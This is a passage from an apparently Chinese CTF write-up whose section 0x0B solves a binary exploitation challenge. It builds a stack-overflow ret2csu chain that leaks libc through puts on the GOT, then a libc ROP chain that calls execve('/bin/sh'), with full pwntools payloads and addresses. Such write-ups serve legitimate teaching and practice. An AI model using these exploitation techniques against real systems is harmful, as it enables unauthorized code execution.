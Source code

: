 跑完就能得到
    
    flag{W4SM_1S_s0_fun_but_1t5_subs3t_isN0T}


## 0x0B 庄子的回文

“读取文件系统中某处存储的 Flag”明示要执行bin/sh了。  
给了libc则是几乎明示要用libc内容搭ROP了。

先checksec看一遍，Partial RELRO,No Canary,No PIE但开了NX。于是确定了应该需要搭ROP；具体的方法应当是通过栈溢出，引导run函数在返回时跳转执行指定代码。

但由于我们还需要利用libc内容来构造bin/sh并执行execve，而程序又开启了Partial RELRO，故我们需要先获得libc在当前运行中加载的位置。这也就意味着我们需要先想办法让程序输出一个libc相关的地址，再通过这个地址计算得到execve的位置和bin/sh的位置，同时再执行一次同样的输入过程以再次
进行栈溢出，并最终执行execve('bin/sh',0,0).

具体的操作上利用了__libc_csu_init的内容;该函数包括两段指令，一段(0x4013BA)是从栈中获取rbx,rbp,r12-r15，另一段(0x4013A0)是把r12-r14赋值给edi,rsi,rdx并调用r15+rbx\*8位置指向的函数，但需要在返回后检查rbx+1=rbp。

我们把0x403FF0(这是got表中__libc_start_main的位置)作为参数填入r12，把0x404020(这是.got.plt中puts函数的位置)填入r15，构造栈溢出使得run返回后执行0x4013ba的上述csu_init函数中的前一段，并在此处再构造一个栈溢出使得该段执行后跳转到csu_init函数的第二段，并最终以指向got表中__libc_start_main项的指针为参数调用puts函数，从而实现输出libc加载地址的目的。

~~~py
payload=('A'*0x88).encode()+p64(0x4013ba)+p64(0)+ p64(1) +p64(0x403FF0) + p64(0) + p64(0)+p64(0x404020)
payload+=p64(0x4013A0)
~~~

但实际操作第一次并不成功：因为0x20是空格，故payload无法正常输入。但注意到，0x4013A0段执行的实际上是r15+rbx\*8。故而修改payload构造，令r15=0x404018而rbx=1即可同样调用puts。需要注意，rbp也需要同步修改为2以通过检查。

~~~py
payload=('A'*0x88).encode()+p64(0x4013ba)+p64(1)+ p64(2) +p64(0x403FF0) + p64(0) + p64(0)+p64(0x404018)
payload+=p64(0x4013A0)
~~~

此时已经能得到输出内容，即__libc_start_main函数加载地址。由于我们已经知道__libc_start_main函数在libc内的地址为0x26fc0，我们可以倒推出libc内存加载的基地址。
~~~py
glibcbase=int.from_bytes(p.recvline(8)[:-1],'little')-0x26fc0
~~~

不过，为了之后再次输入，我们还需要让程序在执行完__libc_csu_init这一段后再次通过栈溢出返回到前面的函数去。我选择的返回点直接就是run函数的开头0x4011CE。这一段的完整payload为:
~~~py
payload=('A'*0x88).encode()+p64(0x4013ba)+p64(rbx)+ p64(rbp) +p64(0x403FF0) + p64(r13) + p64(r14)+p64(puts_got)
payload+=p64(0x4013A0)+('A'*0x38).encode()+p64(0x4011CE)
~~~

然后要做的就是故技重施。由于libc的加载地址已获得而libc中有很多pop rdi;ret;一类的指令，我选择这一步直接栈溢出使得run函数返回到libc中的语句位置，把参数填入寄存器后直接返回到execve函数去执行。此段payload如下：

~~~py
glibcbase=int.from_bytes(p.recvline(8)[:-1],'little')-0x26fc0
execve_addr = libc.symbols["execve"] + glibcbase
binsh_addr = next(libc.search("/bin/sh".encode())) + glibcbase
payload=('A'*0x88).encode()+p64(0x26b72+glibcbase)+p64(binsh_addr)+p64(0x27529+glibcbase)
payload+=b'\00'*8+p64(0x162866+glibcbase)+b'\00'*16+p64(execve_addr)
~~~
